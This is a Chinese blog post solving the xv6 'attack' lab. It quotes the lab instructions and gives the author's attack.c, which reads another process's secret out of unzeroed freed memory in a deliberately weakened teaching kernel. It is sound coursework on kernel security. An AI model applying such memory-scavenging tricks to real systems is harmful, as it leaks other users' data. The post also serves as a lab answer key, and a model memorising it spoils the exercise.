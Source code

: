 ​	您可以修改 user/attack.c，但不能进行任何其他更改：您不能修改 xv6 内核源代码、secret.c、attacktest.c 等。

一些提示：

在 xv6 shell 中运行 attacktest。它应该输出以下内容：

```
$ attacktest
FAIL：没有/不正确的秘密
```

​	请注意，尽管删除了 3 行，但 xv6 似乎可以正常工作：它启动了 shell 并运行了 attacktest。事实上，如果你运行 usertests，它们中的大多数都会通过！阅读 user/attacktest.c。它生成一个随机的 8 字节字符串，并将其传递给程序 secret，后者将其写入其内存中。secret 退出后，attacktest 生成攻击并等待攻击将秘密字符串写入文件描述符 2。
阅读 user/secret.c 并思考如何诱骗 xv6 向 attack.c 透露秘密。通过在 xv6 shell 中运行 attacktest 来测试你的漏洞。
​	user/secret.c 将秘密字节复制到地址为页面开始后 32 字节的内存中。将 32 更改为 0，你应该会看到你的攻击不再起作用；为什么不呢？一些小错误不会直接影响正确性，但仍可能被利用来破坏安全性（如上文所述），这让内核编程变得具有挑战性。xv6 很可能存在此类错误，尽管我们尽量避免。真正的内核比 xv6 的代码行多得多，这类错误由来已久。例如，请参阅公开的 Linux 漏洞和如何报告漏洞。

​	笔者这里因为没有熟悉过risc-v架构的页表分配等，实际上参考的是这位大佬：

[xv6-lab-2024 lab2 Attack最详细解答_xv6 attack lab-CSDN博客](https://blog.csdn.net/weixin_42543071/article/details/143351746)

​	的解答，看官可以自行前往了解原理，笔者的实现放在这里：

```
#include "kernel/types.h"
#include "kernel/fcntl.h"
#include "user/user.h"
#include "kernel/riscv.h"

int
main(int argc, char *argv[])
{
  if(argc != 1){
    printf("usage: attack");
    exit(0);
  }
  char *end = sbrk(PGSIZE*32);
  end = end + 16 * PGSIZE;			/* 为什么是第十七页参考推介的博客 */
  printf("secret: %s\n", end + 32);
  write(2, end+32, 8);
  exit(1);
}
```

